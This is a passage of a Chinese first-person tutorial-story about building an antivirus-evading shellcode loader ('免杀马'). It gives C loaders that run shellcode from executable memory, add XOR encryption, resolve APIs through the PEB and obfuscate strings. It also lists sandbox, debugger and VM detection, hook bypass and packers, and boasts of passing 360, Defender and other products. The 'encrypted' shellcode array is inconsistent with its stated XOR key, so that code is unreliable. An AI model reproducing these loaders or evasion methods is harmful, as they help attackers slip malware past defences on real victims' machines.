"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x58\x20\x58\x20\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24"
"\x03\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";

int main()
{
    // 1. 分配内存，并且设置为可执行
    LPVOID pMemory = VirtualAlloc(
        NULL, 
        sizeof(shellcode), 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_EXECUTE_READWRITE  // 可读可写可执行
    );
    
    if (pMemory == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        return 1;
    }
    
    printf("Allocated memory at: 0x%p\n", pMemory);
    
    // 2. 把Shellcode拷贝到分配的内存里
    memcpy(pMemory, shellcode, sizeof(shellcode));
    
    printf("Shellcode copied to memory\n");
    
    // 3. 创建一个函数指针，指向Shellcode的内存地址
    // 然后调用这个函数指针，也就是执行Shellcode
    printf("Executing shellcode...\n");
    
    // 定义一个函数指针类型，无参数无返回值
    typedef void (*ShellcodeFunc)();
    ShellcodeFunc func = (ShellcodeFunc)pMemory;
    
    // 执行Shellcode
    func();
    
    printf("Shellcode execution finished\n");
    
    // 释放内存
    VirtualFree(pMemory, 0, MEM_RELEASE);
    return 0;
}
```

就这么几十行代码，就是一个最简单的Shellcode加载器了。

当时我写完之后，编译运行，看到MessageBox弹出来的那一刻，我激动得差点跳起来！

> "成功了！我成功了！
> 我居然写出了一个能跑的Shellcode加载器！
> 太牛逼了！"

现在想想，那时候的我真是容易满足。

一个最简单的加载器，就把我高兴成那样。

### 4.3 高兴得太早了

高兴了没两天，我就发现了问题。

这个加载器，杀软一查一个准。

```
💀 第一个加载器的免杀测试：

【测试1：Windows Defender】
- 结果：直接报病毒，"Trojan:Win32/Skeeyah.A!rfn"
- 好家伙，名字都给我认出来了

【测试2：360杀毒】
- 结果：秒删，都不带犹豫的
- 病毒名："HEUR/QVM20.1.Malware.Gen"
- 启发式查杀，牛逼

【测试3：火绒】
- 结果：也是秒删
- 病毒名："Trojan.Generic.xxxxx"

【测试4：VirusTotal】
- 上传扫描
- 结果：70款杀软，查出50多个报毒
- 查杀率70%+
```

我当时就懵了。

不是说自己写的加载器免杀效果好吗？

怎么我写的这个，比MSF直接生成的还拉胯？

后来我才知道，我这个加载器太嫩了。

问题一大堆：

```
❌ 这个加载器的问题（免杀视角）：

1. Shellcode明文放着
   - 整个shellcode数组就在.data节里
   - 杀软一扫描特征码就找到了
   - 这不是明摆着告诉杀软"我是病毒"吗？

2. VirtualAlloc直接开PAGE_EXECUTE_READWRITE
   - 又是可读可写可执行
   - 这是病毒的典型操作啊
   - 杀软对这个API的调用监控得很严
   - 特别是PAGE_EXECUTE_READWRITE这个属性
   - 正常程序谁会开这么大权限？

3. 直接调用VirtualAlloc、memcpy这些API
   - 导入表里明明白白写着
   - 杀软一看导入表就知道你想干嘛
   - 又是VirtualAlloc又是VirtualProtect的
   - 不是病毒是什么？

4. Shellcode是MSF生成的
   - MSF的Shellcode特征太明显了
   - 杀软都认识
   - 你就是换一百个加载器，只要Shellcode还是那个
   - 杀软照样能认出来

5. 整个程序结构太简单了
   - 正常程序哪有这么简单的？
   - 几十行代码，上来就分配内存、拷Shellcode、执行
   - 不是病毒是什么？
```

原来如此。

我还以为自己写个加载器就完事了。

原来免杀的水这么深。

这才哪到哪啊。

### 4.4 开始研究免杀技巧

既然知道了问题在哪，那就一个一个解决。

我开始研究各种免杀技巧。

```
🔍 免杀技巧分类（我当时整理的）：

【静态免杀】（对抗静态扫描）
- 字符串加密/混淆
  * 把Shellcode加密，运行时解密
  * 把字符串加密，运行时解密
- 花指令
  * 加一些没用的指令，干扰特征码匹配
  * 比如加一些垃圾指令、跳转
- 控制流平坦化
  * 把正常的控制流打乱
  * 用switch-case或者状态机的方式实现
  * 让杀软难以分析
- 指令替换
  * 把常用指令换成等价的其他指令
  * 比如把mov eax, 0换成xor eax, eax
- 节区操作
  * 新增节、合并节、修改节属性
  * 把Shellcode放到资源里、放到自定义节里
- PE头修改
  * 修改PE头的各种字段
  * 破坏PE结构的某些部分（但程序还能跑）
  * 干扰杀软的PE解析

【动态免杀】（对抗动态分析/沙箱）
- 沙箱检测
  * 检测是不是在沙箱里运行
  * 比如检测内存大小、CPU核心数、硬盘大小
  * 沙箱一般配置都比较低
- 调试器检测
  * 检测是不是被调试了
  * 比如用IsDebuggerPresent、CheckRemoteDebuggerPresent
  * 或者用PEB的BeingDebugged标志
- 虚拟机检测
  * 检测是不是在虚拟机里运行
  * 比如检测VMware、VirtualBox的特征
  * 检测特定的注册表项、驱动、进程
- 延迟执行
  * 等一会儿再执行恶意代码
  * 很多沙箱等不了那么久
  * 比如Sleep个几分钟再执行
- 钩子绕过
  * 杀软会hook一些API
  * 比如VirtualAlloc、CreateRemoteThread这些
  * 想办法绕过这些钩子
  * 比如直接调用syscall
  * 比如自己实现API
  * 比如用未导出的函数

【加壳脱壳】
- 压缩壳
  * UPX、ASPack、PECompact...
  * 主要是压缩体积，免杀效果一般
  * 现在杀软基本都能自动脱
- 加密壳
  * ASProtect、Armadillo、VMProtect（入门级）
  * 会加密代码和数据，运行时解密
  * 免杀效果比压缩壳好
  * 但是强壳也能脱
- 虚拟机壳
  * VMProtect、Themida、Obsidium...
  * 把代码转换成虚拟机指令
  * 由虚拟机解释执行
  * 免杀效果最好
  * 但是正版很贵，而且试用版有特征
- 手动脱壳
  * 学习脱壳可以更好地理解壳的原理
  * 也可以更好地做免杀
  * 脱壳是逆向工程师的基本功
```

这么多免杀技巧，看得我眼花缭乱。

但是没关系，一个一个学，一个一个试。

---

## 🛡️ 免杀技巧研究之路

### 5.1 第一个技巧：Shellcode加密

最先试的，肯定是最简单的。

Shellcode明摆着不行，那我给它加密不就行了？

加密算法嘛，也不用太复杂，XOR就行。

**XOR加密的原理很简单：**
- 加密：明文 ^ 密钥 = 密文
- 解密：密文 ^ 密钥 = 明文
- 异或运算，加密解密用同一个算法

**XOR加密后的加载器：**

```c
#include <stdio.h>
#include <windows.h>

// 原始Shellcode（MessageBox的）
// 先加密一下，密钥是0x41（也就是'A'）
// 实际用的时候，可以用更复杂的密钥，比如多字节的循环密钥
unsigned char encrypted_shellcode[] = 
"\x98\xaa\xda\x98\x35\x65\xb5\x70\x93\xf3\x36\x70\x25\xc9\xba"
"\x30\x71\x37\x4d\x37\x5d\x37\x47\x07\x47\x3c\x37\x61\x07\x36"
"\x79\x77\x59\x5b\x40\x9c\xbe\xa0\x21\xca\x2d\x7d\x65\x7d\x7d"
"\x31\x32\x39\x19\x39\x31\x20\x78\x40\x35\x39\x69\x40\x7d\x39"
"\x61\x41\xa2\x75\xca\x75\xf5\x70\xbe\x70\xc5\x70\xf0\x42\x74"
"\xf0\x42\x31\x42\x2d\x70\xbe\x70\x85\x41\x8c\x7d\x68\x7d\x64"
"\x40\x9c\x01\x38\x30\x74\xf0\x4c\x35\x74\x99\x4c\x2d\x74\x7d"
"\x40\xa6\x25\x75\xca\x30\x65\x98\xaa\x98\x35\x65\xb5\x31\xd2"
"\xf3\x36\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b"
"\x46\x08\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01"
"\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b"
"\x01\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d"
"\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb"
"\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89"
"\x44\x24\x1c\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e"
"\x4e\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8"
"\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89\x45\x08\x68"
"\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x30"
"\xdb\x88\x5c\x24\x0a\x89\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb"
"\xa8\xa2\x4d\xbc\x87\x1c\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f"
"\x78\x58\x20\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x31\xdb"
"\x88\x5c\x24\x0a\x89\xe3\x68\x58\x20\x58\x20\x68\x48\x65\x6c"
"\x6c\x31\xc9\x88\x4c\x24\x03\x89\xe1\x31\xd2\x52\x53\x51\x52"
"\xff\xd0\x31\xc0\x50\xff\x55\x08";

// XOR解密函数
void xor_decrypt(unsigned char* data, int size, unsigned char key)
{
    for (int i = 0; i < size; i++) {
        data[i] ^= key;
    }
}

int main()
{
    // 1. 先分配内存，先不给执行权限
    LPVOID pMemory = VirtualAlloc(
        NULL, 
        sizeof(encrypted_shellcode), 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_READWRITE  // 先只给可读可写
    );
    
    if (pMemory == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        return 1;
    }
    
    // 2. 把加密后的Shellcode拷过去
    memcpy(pMemory, encrypted_shellcode, sizeof(encrypted_shellcode));
    
    // 3. 在内存中解密Shellcode
    xor_decrypt((unsigned char*)pMemory, sizeof(encrypted_shellcode), 0x41);
    
    // 4. 解密完成后，再修改内存属性为可执行
    DWORD oldProtect;
    VirtualProtect(pMemory, sizeof(encrypted_shellcode), PAGE_EXECUTE_READ, &oldProtect);
    
    // 5. 执行Shellcode
    printf("Executing...\n");
    
    typedef void (*ShellcodeFunc)();
    ShellcodeFunc func = (ShellcodeFunc)pMemory;
    func();
    
    VirtualFree(pMemory, 0, MEM_RELEASE);
    return 0;
}
```

你别说，这么一改，还真有点效果。

VirusTotal的查杀率从70%降到了50%左右。

但是360、Defender这些主流杀软还是能查出来。

为什么呢？

因为问题不止Shellcode这一个。

```
❌ 还是被杀的原因：

1. XOR加密太简单了
   - 单字节XOR，杀软分分钟就能解密
   - 稍微分析一下就能找到Shellcode

2. 导入表还是有问题
   - VirtualAlloc、VirtualProtect都在导入表里
   - 杀软一看就知道你想干嘛

3. 行为还是太明显
   - 分配内存 → 拷东西 → 改权限 → 执行
   - 这一套流程太典型了
   - 行为分析直接就给你标了

4. Shellcode本身的特征
   - 虽然加密了，但是解密之后还是那个Shellcode
   - 内存里还是有特征
   - 动态分析还是能抓到
```

行吧，一个问题一个问题解决。

### 5.2 第二个技巧：动态获取API

导入表里有VirtualAlloc、VirtualProtect这些敏感API不行。

那我不直接调用，动态获取总行了吧？

怎么动态获取？

通过PEB找Kernel32.dll，然后找GetProcAddress，然后用GetProcAddress找其他API。

> 💡 **PEB是什么？**
> PEB（Process Environment Block，进程环境块），是Windows操作系统中用来存储进程信息的一个结构体。
> 在x86系统下，FS寄存器指向TEB（线程环境块），TEB+0x30的位置就是PEB的指针。
> PEB里有很多有用的信息，比如进程是否被调试（BeingDebugged）、进程加载的模块列表（Ldr）等等。
> 我们可以通过PEB找到Kernel32.dll的基址，然后通过导出表找到我们需要的API。

**动态获取API的加载器：**

```c
#include <stdio.h>
#include <windows.h>

// 函数指针类型定义
typedef LPVOID (WINAPI *VirtualAlloc_t)(
    LPVOID lpAddress, SIZE_T dwSize, 
    DWORD flAllocationType, DWORD flProtect);
    
typedef BOOL (WINAPI *VirtualProtect_t)(
    LPVOID lpAddress, SIZE_T dwSize, 
    DWORD flNewProtect, PDWORD lpflOldProtect);

typedef FARPROC (WINAPI *GetProcAddress_t)(
    HMODULE hModule, LPCSTR lpProcName);
    
typedef HMODULE (WINAPI *LoadLibraryA_t)(LPCSTR lpLibFileName);

// 加密后的Shellcode（XOR加密，密钥0x41）
unsigned char encrypted_shellcode[] = 
"\x98\xaa\xda\x98\x35\x65\xb5\x70\x93\xf3\x36\x70\x25\xc9\xba"
// ... 省略，跟之前一样 ...

// XOR解密
void xor_decrypt(unsigned char* data, int size, unsigned char key)
{
    for (int i = 0; i < size; i++) {
        data[i] ^= key;
    }
}

// 字符串的hash（用来比较函数名，不用直接存字符串）
// 这里用简单的hash算法，实际可以用更复杂的
unsigned int hash_string(const char* str)
{
    unsigned int hash = 0;
    while (*str) {
        hash = hash * 31 + *str;
        str++;
    }
    return hash;
}

// 从PEB获取Kernel32.dll的基址
HMODULE get_kernel32_base()
{
    // x86下，FS:[0x30]是PEB
    // PEB+0x0C是Ldr
    // Ldr+0x1C是InInitializationOrderModuleList
    // 链表的第二个节点就是Kernel32.dll
    
    __asm {
        mov eax, fs:[0x30]  ; PEB
        mov eax, [eax + 0x0C]  ; Ldr
        mov eax, [eax + 0x1C]  ; InInitializationOrderModuleList
        mov eax, [eax]  ; 第一个节点（ntdll）
        mov eax, [eax]  ; 第二个节点（kernel32）
        mov eax, [eax + 0x08]  ; DllBase
    }
    
    // 上面的汇编返回值在eax里，直接当返回值
}

// 通过导出表查找函数地址
FARPROC find_function(HMODULE hModule, unsigned int target_hash)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)hModule;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(
        (DWORD)hModule + pDosHeader->e_lfanew);
    
    // 导出表的位置
    DWORD exportDirRVA = pNtHeader->OptionalHeader.DataDirectory[0].VirtualAddress;
    PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)(
        (DWORD)hModule + exportDirRVA);
    
    DWORD* pAddressOfNames = (DWORD*)((DWORD)hModule + pExportDir->AddressOfNames);
    DWORD* pAddressOfFunctions = (DWORD*)((DWORD)hModule + pExportDir->AddressOfFunctions);
    WORD* pAddressOfNameOrdinals = (WORD*)((DWORD)hModule + pExportDir->AddressOfNameOrdinals);
    
    // 遍历导出函数
    for (DWORD i = 0; i < pExportDir->NumberOfNames; i++) {
        char* funcName = (char*)((DWORD)hModule + pAddressOfNames[i]);
        unsigned int funcHash = hash_string(funcName);
        
        if (funcHash == target_hash) {
            WORD ordinal = pAddressOfNameOrdinals[i];
            FARPROC funcAddr = (FARPROC)(
                (DWORD)hModule + pAddressOfFunctions[ordinal]);
            return funcAddr;
        }
    }
    
    return NULL;
}

int main()
{
    // 1. 获取Kernel32.dll基址
    HMODULE hKernel32 = get_kernel32_base();
    printf("Kernel32 base: 0x%p\n", hKernel32);
    
    // 2. 找GetProcAddress
    // "GetProcAddress"的hash值（提前算好的）
    unsigned int hash_GetProcAddress = 0x...; // 实际值要提前算好
    GetProcAddress_t pGetProcAddress = (GetProcAddress_t)find_function(
        hKernel32, hash_GetProcAddress);
    printf("GetProcAddress: 0x%p\n", pGetProcAddress);
    
    // 3. 用GetProcAddress找LoadLibraryA
    LoadLibraryA_t pLoadLibraryA = (LoadLibraryA_t)pGetProcAddress(
        hKernel32, "LoadLibraryA");
    
    // 4. 找VirtualAlloc和VirtualProtect
    VirtualAlloc_t pVirtualAlloc = (VirtualAlloc_t)pGetProcAddress(
        hKernel32, "VirtualAlloc");
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)pGetProcAddress(
        hKernel32, "VirtualProtect");
    
    printf("VirtualAlloc: 0x%p\n", pVirtualAlloc);
    printf("VirtualProtect: 0x%p\n", pVirtualProtect);
    
    // 5. 分配内存
    LPVOID pMemory = pVirtualAlloc(
        NULL, 
        sizeof(encrypted_shellcode), 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_READWRITE);
    
    // 6. 拷贝并解密
    memcpy(pMemory, encrypted_shellcode, sizeof(encrypted_shellcode));
    xor_decrypt((unsigned char*)pMemory, sizeof(encrypted_shellcode), 0x41);
    
    // 7. 修改内存属性
    DWORD oldProtect;
    pVirtualProtect(pMemory, sizeof(encrypted_shellcode), PAGE_EXECUTE_READ, &oldProtect);
    
    // 8. 执行
    typedef void (*ShellcodeFunc)();
    ShellcodeFunc func = (ShellcodeFunc)pMemory;
    func();
    
    return 0;
}
```

好家伙，这一改，代码量直接翻倍。

但是免杀效果确实又好了一点。

VirusTotal查杀率降到了40%左右。

但是360和Defender还是能查出来。

唉，这俩杀软是真难搞。

### 5.3 第三个技巧：字符串混淆

刚才的代码里，函数名字符串还是明文的，比如"VirtualAlloc"、"LoadLibraryA"。

这些敏感字符串也会被特征码匹配到。

那怎么办？

字符串也加密啊！

用的时候再解密。

**字符串混淆示例：**

```c
// 加密字符串，用的时候解密
// 比如"VirtualAlloc"加密后存起来，用的时候解密到栈上

// 简单的字符串加密（编译时加密，运行时解密）
#define ENCRYPTED_STRING(str) (str)  // 这里只是示例，实际要复杂得多

// 实际做法：
// 1. 写个小工具，把字符串加密成字节数组
// 2. 代码里直接放加密后的字节数组
// 3. 用的时候解密到一个缓冲区里
// 4. 用完就清掉

// 比如"VirtualAlloc"加密后：
unsigned char encrypted_str_VirtualAlloc[] = {0x56, 0x69, 0x72, 0x74, ...};

// 用的时候解密：
char str_VirtualAlloc[64] = {0};
xor_decrypt(encrypted_str_VirtualAlloc, sizeof(encrypted_str_VirtualAlloc), 0x41);
// 然后用str_VirtualAlloc去调用GetProcAddress
```

这样一来，导入表里没有敏感API，字符串也是加密的。

静态查杀的话，确实更难了。

但是360还是能查出来。

为什么呢？

因为360不止有静态查杀，还有动态查杀、行为查杀、云查杀...

人家是多引擎的。

免杀这条路，真的不好走。

### 5.4 控制流平坦化

静态免杀技巧试了不少，效果都一般。

我开始研究更高级的免杀技巧。

比如控制流平坦化。

> 💡 **什么是控制流平坦化？**
> 控制流平坦化（Control Flow Flattening），就是把正常的控制流（if-else、for、while这些）打乱，
> 变成一个大的switch-case或者状态机，让代码的逻辑变得很难分析。
>
> 正常的代码控制流是有结构的，杀软可以通过分析控制流来判断程序的行为。
> 控制流平坦化之后，控制流就变成了一锅粥，杀软很难分析。
>
> OLLVM（Obfuscator-LLVM）里就有控制流平坦化的Pass，可以直接用。
> 但是我们要理解原理，自己也能实现。

**控制流平坦化的原理示意图：**

```mermaid
flowchart TD
    subgraph 正常的控制流
        A[开始] --> B{条件判断1}
        B -->|是| C[执行A]
        B -->|否| D{条件判断2}
        D -->|是| E[执行B]
        D -->|否| F[执行C]
        C --> G[结束]
        E --> G
        F --> G
    end

    subgraph 平坦化后的控制流
        H[状态=状态1] --> I{switch(状态)}
        I -->|状态1| J[执行A<br/>状态=状态结束]
        I -->|状态2| K[执行B<br/>状态=状态1]
        I -->|状态3| L[执行C<br/>状态=状态2]
        I -->|状态结束| M[结束]
        J --> I
        K --> I
        L --> I
    end

    style A fill:#90EE90
    style H fill:#FFB6C1
```

看到没？

正常的代码是顺序执行的，有清晰的逻辑结构。

平坦化之后，所有的基本块都被塞到一个大switch里，通过一个状态变量来控制执行顺序。

这样一来，代码的逻辑就变得非常难分析。

杀软想静态分析你这代码是干嘛的？门都没有。

但是控制流平坦化实现起来也挺复杂的。

我那时候研究了好久，才搞明白大概的原理。

自己手写控制流平坦化太麻烦了，我就找了一些现成的混淆工具。

比如OLLVM，就是基于LLVM的混淆器，支持控制流平坦化、指令替换、虚假控制流等等。

但是OLLVM配置起来也挺麻烦的，而且我那时候对LLVM也不熟。

折腾了好几天，才把环境搭起来。

用OLLVM编译出来的程序，免杀效果确实好不少。

VirusTotal查杀率降到了20%左右。

但是！360还是能查出来！

我当时都快疯了。

> "360你是不是针对我？
> 别的杀软都查不出来了，就你能查出来？
> 你是不是开了挂？"

后来我才知道，360有云查杀。

就是说，就算你本地的特征码没匹配到，它也会把文件的hash、特征上传到云端，跟云端的大数据比对。

只要有一个人提交过类似的文件，它就能认出来。

而且360还有QVM人工智能引擎，用机器学习的方式来检测病毒。

传统的免杀技巧，在AI引擎面前，效果大打折扣。

### 5.5 加壳与脱壳

静态混淆搞不定，我又开始研究加壳。

壳这个东西，早有耳闻。

据说加了壳的程序，杀软就认不出来了。

于是我找了各种加壳工具来试。

```
📦 我试过的加壳工具：

【压缩壳】
- UPX：最经典的压缩壳，秒脱，免杀效果约等于0
- ASPack：也是压缩壳，比UPX好一点，但还是秒脱
- PECompact：同样是压缩壳，效果一般

【加密壳】
- ASProtect：老牌加密壳，有一定的免杀效果
  但是有经验的逆向工程师也能脱
- Armadillo：也是加密壳，特点是有很多保护选项
- Enigma Protector：国产的加密壳，功能挺多的

【虚拟机壳】
- VMProtect：最有名的虚拟机壳，功能强大
  有官方中文版，用的人很多
  但是正版很贵，几千块钱
  试用版有特征，杀软都认识
- Themida：也是很强的虚拟机壳，比VMProtect还强
  同样很贵，而且更难脱
- Obsidium：相对小众一点的虚拟机壳
  效果也不错
```

试了一圈，我发现：

- 压缩壳：没用，秒脱
- 加密壳：有点用，但主流杀软还是能查出来
- 虚拟机壳：效果最好，但是正版太贵，试用版有特征

那时候我工资才3500，哪买得起几千块钱的壳啊。

于是我开始研究手动脱壳。

为什么学脱壳？

因为搞懂了壳的原理，你才能更好地做免杀。

而且，你可以学习壳的保护技术，自己实现类似的保护。

学脱壳的那段时间，我天天跟OllyDbg、x64dbg打交道。

**脱壳的一般步骤：**

```
🔓 手动脱壳的一般步骤（以压缩壳为例）：

1. 找OEP（Original Entry Point，程序原始入口点）
   - 壳的代码执行完之后，会跳转到原始程序的入口点
   - 我们的目标就是找到这个OEP
   - 找OEP的方法：
     * 单步跟踪法：一步一步跟，跟到OEP
     * ESP定律法：利用栈的规律找OEP（压缩壳常用）
     * 内存镜像法：在.text段下硬件执行断点
     * 最后一次异常法：利用异常来定位
     * ...还有很多方法

2. 脱壳
   - 找到OEP之后，把内存中的PE镜像dump出来
   - 用OllyDump、x64dbg的Scylla插件都可以
   - dump出来之后，还需要修复导入表
   - 因为壳一般会加密或者修改导入表
   - 用Import REC或者Scylla修复导入表

3. 修复
   - 修复导入表之后，程序一般就能跑了
   - 但是可能还有一些问题
   - 比如重定位表、资源、TLS回调等等
   - 根据情况修复
```

学脱壳那段时间，我真的是头都大了。

什么ESP定律、内存镜像、最后一次异常... 听得云里雾里的。

但是没办法，硬着头皮学。

从最简单的UPX壳开始脱，然后是ASPack，然后是更复杂的壳。

脱了几十个壳之后，慢慢就有感觉了。

虽然复杂的壳还是脱不掉，但是至少原理搞懂了。

---

## 🎉 第一次成功：能过360的免杀马

### 6.1 山重水复疑无路

就这样，我研究免杀研究了快半年。

各种技巧都试过了，但是始终搞不定360。

每次都是差那么一点。

VirusTotal查杀率能降到10%以下，但360就是能查出来。

那段时间，我都有点怀疑人生了。

> "是不是我太笨了？
> 是不是我根本不是这块料？
> 别人都能做出来，为什么我不行？"

有好几次，我都想放弃了。

但是一想到客户那嘲讽的语气，一想到老板那失望的眼神，我又咬牙坚持了下来。

不行，我不能放弃！

我就不信了，我死磕半年，还搞不定一个360？

### 6.2 柳暗花明又一村

有一天，我在论坛上逛，看到一个大佬分享的免杀思路。

那个大佬说：

> "现在的杀软，静态查杀、特征码查杀都很厉害了。
> 但是行为查杀和云查杀是关键。
> 想过国内的杀软，特别是360，光靠静态混淆不够。
> 你得搞清楚360是怎么检测的，然后针对性地绕过。"

然后他说了几个思路：

1. **白利用**：用系统自带的工具来执行Shellcode，比如mshta、rundll32、regsvr32这些。这些工具是系统自带的，有数字签名，杀软不会轻易拦。
2. **无文件攻击**：不用落地文件，直接在内存里执行。比如通过PowerShell、WMI这些方式，把Shellcode直接注入到内存里，不留痕迹。
3. **间接系统调用**：不用走正常的API调用路径，直接调用syscall或者用未导出的函数，绕过杀软的钩子。
4. **钩子检测与绕过**：先检测杀软hook了哪些API，然后想办法绕过这些钩子。比如自己实现API，或者用syscall。
5. **内存免杀**：就算静态过了，内存里还是有Shellcode的特征，杀软可以扫描内存。所以要做内存免杀，比如分段解密执行，执行完就擦除。

看完这些，我恍然大悟。

原来我之前一直在静态免杀这块打转，格局太小了。

免杀是一个系统工程，要从各个方面入手。

光靠静态混淆肯定不行。

于是我开始研究这些新的思路。

### 6.3 组合拳出击

我把之前学的各种免杀技巧组合起来，搞了一个"组合拳"版本的加载器。

**我的组合免杀方案：**

```
🛡️ 免杀组合拳（v1.0版本）：

【静态免杀】
1. Shellcode加密：AES加密，密钥动态生成
2. 字符串加密：所有敏感字符串全部加密，用的时候解密
3. 动态获取API：从PEB找，不导入任何敏感API
4. 控制流平坦化：用OLLVM把整个加载器的代码做控制流平坦化
5. 花指令：加一些垃圾代码、虚假跳转
6. 指令替换：把常用指令换成等价的其他指令
7. PE头修改：修改PE头的一些字段，破坏一些PE解析工具

【动态免杀】
1. 延迟执行：先Sleep一段时间，再执行Shellcode
2. 沙箱检测：检测内存大小、CPU核心数、硬盘大小、运行时间
3. 调试器检测：PEB BeingDebugged、IsDebuggerPresent、CheckRemoteDebuggerPresent
4. 虚拟机检测：检测VMware、VirtualBox的特征
5. 钩子检测：检测关键API是不是被hook了

【加壳保护】
1. 先用UPX压缩一下（干扰一下）
2. 然后用一个自制的简单加密壳再包一层
3. 入口点加花指令
```

这么一套组合拳打下来，程序已经面目全非了。

我自己都快认不出来了。

但是360能不能过呢？

我心里也没底。

### 6.4 激动人心的时刻

那天晚上，我把编译好的程序复制到装了360的虚拟机里。

我的手都在抖。

点右键，选择"使用360杀毒扫描"。

然后...

一秒...

两秒...

三秒...

扫描完成。

**扫描结果：未发现风险。**

我当时一下子从椅子上蹦了起来！

> "过了！过了！
> 终于过了！
> 360扫不出来了！
> 我成功了！"

我当时激动得差点哭出来。

半年了，整整半年了！

我天天熬到凌晨一两点，学C语言、学汇编、学PE结构、学各种免杀技巧...

无数次失败，无数次想放弃...

今天，终于成功了！

我又试了试实时防护。

把文件拖到虚拟机里，360没有任何反应。

双击运行，360还是没有反应。

Shellcode正常执行，MessageBox正常弹出来。

**真的过了！**

我又拿其他杀软试了试：

```
🎉 免杀测试结果（组合拳版本）：

【国内杀软】
- 360杀毒：✅ 过了！
- 360安全卫士：✅ 过了！（实时防护也没拦）
- 火绒：✅ 过了！
- 腾讯电脑管家：✅ 过了！
- 金山毒霸：✅ 过了！

【国外杀软】
- Windows Defender：✅ 过了！
- McAfee：✅ 过了！
- Symantec：✅ 过了！
- Kaspersky：❌ 还是被杀了（卡巴斯基确实牛逼）
- Avast：✅ 过了！
- AVG：✅ 过了！

【VirusTotal】
- 70款杀软，只有5个报毒
- 查杀率不到10%
- 而且报毒的都是些听都没听过的小杀软
```

除了卡巴斯基，其他的基本都过了！

这效果，我已经非常满意了。

### 6.5 激动得睡不着觉

那天晚上，我激动得睡不着觉。

我躺在床上，翻来覆去地想这半年的经历。

从一个连C语言都学不明白的编程小白，到现在能写出过360的免杀马。

这半年，我付出了多少，只有我自己知道。

但是值！

太值了！

我拿出手机，想给老板发个消息炫耀一下。

但是一看时间，已经凌晨两点了。

算了，明天再说吧。

我又翻了个身，心里美滋滋的。

但是我知道，这还只是开始。

免杀这条路，深着呢。

现在这个版本，虽然能过360，但是卡巴斯基还没过。

而且，这只是静态免杀和简单的动态免杀。

真到了实战环境，客户机器上可能装着EDR，还有各种安全设备。

到那时候，现在这些技巧可能又不够用了。

还有更高级的东西要学：
- 对抗EDR
- 内核对抗
- 无文件攻击
- 白利用
- 间接系统调用
- AMSI绕过
- ETW绕过
- ...

路还长着呢。

但是没关系，我已经不怕了。

连最难的入门阶段都熬过来了，还有什么可怕的？

一步一步来，慢慢学呗。

反正我年轻，有的是时间。

---

## 🔮 下篇预告

第一个免杀马做出来了，但是故事才刚刚开始。

下篇里，你会看到：

- 小飞拿着自己做的免杀马，在项目中大显身手
- 但是好景不长，遇到了更厉害的对手（EDR）
- 免杀马失效了，又一次被客户吐槽
- 小飞开始研究更高级的免杀技术：对抗EDR
- 无文件攻击、白利用、间接系统调用、AMSI绕过...
- 从用户层免杀到内核层免杀
- 最终成为真正的免杀大佬
- 还有小飞的职业发展和薪资变化

欲知后事如何，且听下回分解。

---

## ✏️ 课后习题

### 习题1：PE结构基础

**题目：**
简述PE文件的基本结构，以及每个部分的作用。

**参考答案：**
PE文件主要由以下几部分组成：
1. DOS头（IMAGE_DOS_HEADER）：最开头，64字节，有MZ标志和指向NT头的偏移
2. DOS Stub：DOS下的程序，现在基本没用
3. NT头（IMAGE_NT_HEADERS）：PE的核心，包含PE标志、文件头、可选头
4. 文件头（IMAGE_FILE_HEADER）：记录机器类型、节数量、文件属性等
5. 可选头（IMAGE_OPTIONAL_HEADER）：记录入口点、加载基址、内存大小、数据目录表等
6. 数据目录表（DataDirectory）：16个元素，记录导出表、导入表、资源表、重定位表等的位置
